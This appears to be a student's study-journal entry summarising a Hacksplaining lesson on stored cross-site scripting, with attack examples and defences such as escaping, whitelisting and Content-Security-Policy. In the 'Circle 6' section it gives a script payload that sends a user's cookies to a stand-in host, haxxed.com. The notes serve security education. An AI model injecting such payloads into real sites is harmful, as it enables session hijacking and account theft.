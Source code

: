 # Entry #4: Learning Cross-site Scripting and A Realization  
For this week, I have moved on onto another topic, which is called Cross-site Scripting. While doing so, I came across 

##### Some Side Notes: 
If you would like to follow along with what you will read in my entry, click on this link: [Hacksplaining: Cross-site Scripting](https://www.hacksplaining.com/exercises/xss-stored). 

When you click on the link, you will notice that there are circles on the top-left corner. Those circles are like the steps or slides of a presentation. You can click on them to go back and forward. 
![Circles](../images/week4/cross-ss-circles.PNG) 

## Cross-site Scripting 
What is this? Cross-site scripting is method a method that allows users to add to a site’s content, which can possibly lead to injection of malicious JavaScript.  

#### Demonstration 
**_Circle 2_**

If your website has the ability to facilitate discussions between users commenting, then those conversations/comments need to be saved to a database to show yourself and others users.  

**_Circle 3_** 

As the popularity of your site increases, attackers get more and more attracted. 

**_Circle 4_**

By being careful with HTML, it can prevent hackers from abusing the comment section through the usage of malicious JavaScript (example).   

**_Circle 5_**

Mal (the hacker) tries to mess with me (user) by using this: ```<script>alert('Your croissants are limp and sad.')</script>```. This leads to a message popping up in the user’s laptop/computer, which only user gets to see.  

**_Circle 6_**

From having a real attack, a person’s cookies could be stolen, allowing the hackers to have a period of time to hijack.  

Code used for this sections: ```<script>window.location = 'haxxed.com?cookie=' + document.cookie</script>```
* ```<script> </script>```: Script tags 
* 

**_Circle 7_**
Making a comment be liked by fake people → ```<script>upvote()</script>```     

### Signs of Danger   
The level of damage can vary depending on the sensitivity that your data has.  

#### Ways To Attack: 
* Spreading [worms](https://www.hacksplaining.com/glossary/worms) on social media sites. 
    * Worm → malicious program that can multiply itself and can leak into other systems. User can be a victim to this if mistakenly downloaded or executed some thing that was thought to be something else.   
    * [Samy](https://en.wikipedia.org/wiki/Samy_(computer_worm)) (computer worms) a.k.a JS.Spacehero, created by [Samy Kamkar](https://en.wikipedia.org/wiki/Samy_Kamkar)    
        * Fastest virus spread of all time (in MySpace) → 1,000,000+ ran the [payload](https://en.wikipedia.org/wiki/Payload_(computing))  
        * User looks at an infected profile page → payload gets copied + injected into the other user’s profile page 
        * Happened to known social media websites → Facebook, Twitter, and YouTube  
* Hijacking (stealing something while it is in action) a session 
    * Hacker uses JavaScript → have the session ID sent to a site that is under his/her control + pretend to be the user.  
* Theft 
    * Identity theft → Entering confidential info into a website that has been messed with → details can be stolen through JavaScript 
    * Stealing sensitive data (ex: passwords) 
    * Financial fraud on banking websites 
* Denial of Service Attacks ([DOS attack](https://www.hacksplaining.com/glossary/denial-of-service-attacks)) and  website vandalism 
    * Goal of attack: Flood a website service/website → making it unavailable 
    Online application have “limited bandwidth” → will be made unavailable if there is a bunch of dangerous “traffic” → involves many different fake IP addresses → “making them much harder to defeat”   
    * Solution → “properly configured firewall”  
    * Other resources: 
        * [Denial of Service Attacks](https://www.hacksplaining.com/exercises/denial-of-service-attacks) (lesson from Hacksplaining)  
        * [How to stop a DDOS attack](https://blog.fastmail.com/2015/12/08/how-to-stop-a-ddos-attack/)     

#### Protection
**_Dynamic Content_**    
* Web pages → HTML + dynamic content sewn in 
* [Stored XSS attacks](https://www.google.com/search?q=Stored+XSS+attacks&oq=Stored+XSS+attacks&aqs=chrome..69i57&sourceid=chrome&ie=UTF-8) → dynamic content is not set up well from the “backend data store” 
* Attacker → uses the advantage of “editable field” → inputting JavaScript code → executed  
* If your site is not one where you manage content → it is rare for you to have your users use raw HTML 
* “ coming from a data store” → so that the browser knows that it should be labeled as the contents of HTML, and not raw HTML 
    * “coming from a data store” → that is connected to your 
* Escape all dynamic content by replacing significant characters with HTML ones 

Significant Characters | HTML “Characters”
-----------------------|------------------------
          “            |       &#34
      Octothorp(#)     |       &#35
          &            |       &#38
          ‘            |       &#39
          (            |       &#40
          )            |       &#41
          /            |       &#47
          ;            |       &#59
          <            |       &#60
      Greater sign (>) |       &#62

* “Most modern framework will escape dynamic content by default” 
* Escaping editable content → make the browser never look at the code as executable → closes the chances of XSS attacks  

**_Whitelist Values_**  
* Condition → a certain dynamic data item can only handle a “handful” of valid values → try to limit the values in the “data store” + have your logic-checker only allow good values that are known of already 
* Their example → instead of asking for a person to type in the country that he/she lives in, ask him/ her to pick it from a drop-down list 

**_Content-Security Policy_** 
* Modern browsers support content-security policies → permits the programmer of a webpage to have say in where JavaScript and other sources be shown 
* XSS attacks → from hackers/attackers using malicious scripts on a website → by using script tags in HTML tags or “trick the browser into loading the JavaScript from a malicious third-party domain”. 
* Putting a content security policy in the “response header” → tells browse to never run “inline JavaScript” + (“lock down”/) make note of which domains can run JavaScript 
    * ```Content-Security-Policy: script-src 'self' https://apis.google.com```      
* Content security policy can be set in 

### Realization/Next Steps 
While I have been learning, I have been using only one website so far, which is [Hacksplaining](https://www.hacksplaining.com/lessons). With every lesson that I go through, I try to take note of everything, which takes a long time because it seems like every topic has a lot to it already. In order to progress faster, a method that I try to use would be the following: whenever I start a new topic, just read through it first. After doing so, I should decide how extensive my note should be on this particular topic. 



